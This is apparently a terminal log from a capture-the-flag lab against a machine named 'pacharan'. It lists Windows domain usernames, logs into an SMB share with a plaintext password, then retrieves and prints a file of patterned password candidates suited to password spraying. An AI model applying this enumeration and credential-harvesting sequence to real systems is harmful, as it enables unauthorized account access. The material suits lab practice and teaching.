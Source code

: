===========================================================================================================================================================================
┌──(kali㉿kali)-[~/Documents/pacharan]
└─$ cat usuarios.txt 
Administrador
Invitado
krbtgt
DefaultAccount
Orujo
Ginebra
Whisky
Hendrick
Chivas Regal
Whisky2
JB
Chivas
beefeater
CarlosV
RedLabel
Gordons


===========================================================================================================================================================================
──(kali㉿kali)-[~/Documents/pacharan]
└─$ smbclient \\\\192.168.69.69\\PACHARAN -U Orujo
Password for [WORKGROUP\Orujo]:Pericodelospalotes6969
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 31 13:21:13 2024
  ..                                  D        0  Wed Jul 31 13:21:13 2024
  ah.txt                              A      921  Wed Jul 31 13:20:16 2024

                7735807 blocks of size 4096. 4732618 blocks available
smb: \> get ah.txt 
getting file \ah.txt of size 921 as ah.txt (299.8 KiloBytes/sec) (average 299.8 KiloBytes/sec)
smb: \> exit
                                               

===========================================================================================================================================================================
──(kali㉿kali)-[~/Documents/pacharan]
└─$ cat ah.txt   
Mamasoystreamer1!
Mamasoystreamer2@
Mamasoystreamer3#
Mamasoystreamer4$
Mamasoystreamer5%
Mamasoystreamer6^
Mamasoystreamer7&
Mamasoystreamer8*
Mamasoystreamer9(
Mamasoystreamer10)
MamasoyStreamer11!
MamasoyStreamer12@
MamasoyStreamer13#
MamasoyStreamer14$
MamasoyStreamer15%
MamasoyStreamer16^
MamasoyStreamer17&
MamasoyStreamer18*
MamasoyStreamer19(
MamasoyStreamer20)
MamaSoyStreamer1!
MamaSoyStreamer2@
MamaSoyStreamer3#